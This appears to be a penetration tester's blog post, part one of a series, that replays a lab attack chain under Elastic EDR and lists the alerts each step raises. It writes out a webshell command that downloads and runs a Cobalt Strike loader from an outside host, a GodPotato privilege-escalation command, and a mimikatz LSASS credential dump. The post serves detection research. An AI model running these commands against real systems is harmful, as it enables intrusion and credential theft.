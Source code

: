 ```yaml
---
title: Increase your stealth capabilities - part 1
date: 2024-01-04
categories: [ "Malware Development" ]
tags: [ "research", "command and control", "windows", "edr", "tooling", "detection", "elastic" ]     # TAG names should always be lowercase
---
```


In a recent assessment, my teammates and I were tasked to perform a web security review of several applications with the possibility to perform internal pentest if the opportunity came up.

On one of the application, we successfully uploaded a aspx webshell which executes Windows cmd. The engagement didn’t require us to be stealthy and the goal of this blog post is to reproduce our what we did with Elastic EDR watching us.

## Web RCE

We downloaded our Cobalt Strike loader and executed it

```bash
> curl http://website.crash.lab/webshell.aspx --data '70c1cc863a=powershell wget http://xxxx.com/load.exe -outfile C:\Windows\Temp\load.exe'
> curl http://website.crash.lab/webshell.aspx --data '70c1cc863a=C:\Windows\Temp\load.exe'
```

And we got our beacon back

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/initial-cs.png)

If we look at the alerts in Elastic EDR, we can see that we were very noisy.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/initial-alerts.png)


- `Web Shell Detection: Script Process Child of Common Web Processes` because the IIS process `w3wp.exe` spawned `cmd.exe`
- `Malicious Behavior Detection Alert: Suspicious Microsoft IIS Worker Descendant` because the IIS process `w3wp.exe` spawned `cmd.exe` that suggest the web server has been compromised
- `Remote File Download via PowerShell` because of the `wget` Powershell command to download our loader
- `Memory Threat Detection Alert: Windows.Trojan.CobaltStrike` because Elastic EDR Yara rules flagged our beacon in memory
- `Malicious Behavior Detection Alert: Network Module Loaded from Suspicious Unbacked Memory` - as our beacon is stored in unbacked memory, Elastic EDR caught an API call that came from this suspicious region


The next step of our exploitation was to escalate our privileges from Local Service Account to Local Administrator.

We can do it in two different ways:

- abuse `SeImpersonatePrivilege` privilege to escalate to SYSTEM (we used this way during the engagement)
- abuse Kerberos `S4U2Self` to generate a Service Ticket for a domain user which has local administrator right


## EoP - SeImpersonatePrivilege

We used GodPotato to exploit the `SeImpersonatePrivilege`

```bash
beacon> execute-assembly /home/user/Tools/Windows/GodPotato-NET4.exe -cmd "cmd /c C:\Windows\Temp\load.exe"
```

And we got our SYSTEM beacon back.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/system-cs.png)

The last action raised the following alerts:

- `Malicious Behavior Detection Alert: Microsoft Common Language Runtime Loaded from Suspicious Memory` - because CLR.dll has been loaded by the post-exploit temporary process
- `Malicious Behavior Detection Alert: AMSI or WLDP Bypass via Memory Patching` - the Cobalt Strike AMSI patch has been flagged


## LSASS dump

After we gained SYSTEM privileges, we launched the built-in mimikatz command to dump credentials from LSASS.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/logonpassword-cs.png)


Which raised alerts:

- `LSASS Process Access via Windows API`
- `Memory Threat Detection Alert: Windows.Hacktool.Mimikatz`
- `LSASS Access Attempt from Unbacked Memory`

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/alerts-2.png)

## Conclusion

As we can saw, there are plenty of opportunities to detect our actions during the different phase of the attack path:

- execution of a webshell
- execution of an .NET assembly through execute-assembly
- LSASS dump

In the [next part](/posts/increase-stealth-capabilities-part2/) I will go through each steps again but with detection in mind.